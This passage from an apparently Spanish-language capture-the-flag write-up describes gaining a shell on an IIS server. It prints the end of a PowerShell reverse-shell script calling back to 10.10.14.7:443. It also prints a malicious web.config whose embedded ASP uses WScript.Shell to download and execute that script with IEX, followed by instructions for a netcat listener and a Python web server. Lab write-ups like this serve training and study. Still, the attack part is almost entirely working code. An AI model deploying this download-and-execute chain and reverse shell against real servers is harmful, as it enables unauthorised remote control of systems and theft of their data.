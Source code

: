 ```powershell title="PS.ps1"
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
       Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 443
``` 

Y el `web.config` de la siguiente manera:&#x20;

```xml title="web.config"
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set co = CreateObject("WScript.Shell")
Set cte = co.Exec("cmd /c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.7/PS.ps1')")
output = cte.StdOut.ReadAll()
Response.write(output)
%>
-->
```

Todo para poder ejecutar la shell, nos pondremos a la escucha con **rlwrap** y **netcat** por el puerto `443` y levantaremos un servidor web improvisado con **python**, y una vez subido y ejecutado deberíamos obtener la shell.
